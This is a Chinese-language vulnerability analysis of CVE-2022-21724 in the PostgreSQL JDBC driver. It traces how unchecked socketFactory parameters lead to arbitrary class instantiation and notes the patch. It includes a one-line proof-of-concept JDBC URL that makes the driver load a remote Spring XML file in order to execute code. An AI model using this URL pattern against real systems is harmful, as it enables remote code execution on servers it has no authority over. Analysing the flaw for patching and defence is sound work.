




- [CVE-2022-21724 PostgreSQL 远程代码执行](#cve-2022-21724-postgresql-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [ConnectionImpl](#connectionimpl)
    - [socketFactory](#socketfactory)
  - [POC](#poc)
  - [补丁](#补丁)
# CVE-2022-21724 PostgreSQL 远程代码执行
## 影响版本
>=9.4.1208&&<42.2.25||>=42.3.0&&<42.3.2
## 原理分析
### ConnectionImpl
在org/postgresql/Driver.java#connect中对JDBC字符串做解析处理,其中各个参数和对应的值都放入了Info属性中。

在org/postgresql/core/v3/ConnectionFactoryImpl.java中为Connect工厂的实现,其中调用了`SocketFactoryFactory.getSocketFactory(info)`将Info属性传入来获取`SocketFactory`。

### socketFactory 
根据官方文档 [参考](https://jdbc.postgresql.org/documentation/head/connect.html#connection-parameters)
在PostgreSQL连接时支持使用指定的类来建立Socket连接,该类必须继承`javax.net.SocketFactory`类,且该类需要有无参构造函数,接受String类型参数的构造函数或者接受一个Properties 作为参数的构造函数,Properties中包括了该类所需要的参数列表。  


socketFactory：要使用的socketFactory类.
socketFactoryArg：socketFactory类的参数.

在`getSocketFactory`中,根据info中socketFactory的值来获取类名然后又调用`ObjectFactory`来生成对象。

在`ObjectFactory`中则通过Class.forName获取到对应的Class和对应的构造器,然后调用构造器newInstance直接实例化了对象。

整个过程并没有检验指定的socketFactory类是否继承了`javax.net.SocketFactory`并实现了相关接口，所以只要找一个可访问并带String参数构造器的类，其中构造器内执行了危险操作即可利用。
## POC
以org.springframework.context.support.ClassPathXmlApplicationContext类为例,其中构造函数支持从给定的xml地址加载Bean对象。

```java
        DriverManager.getConnection("jdbc:postgresql://127.0.0.1/test?user=test&password=123456&socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:8082/exp.xml");
```

## 补丁
在调用`ObjectFactory`时传入SocketFactory类,在`ObjectFactory`中检验了继承关系。

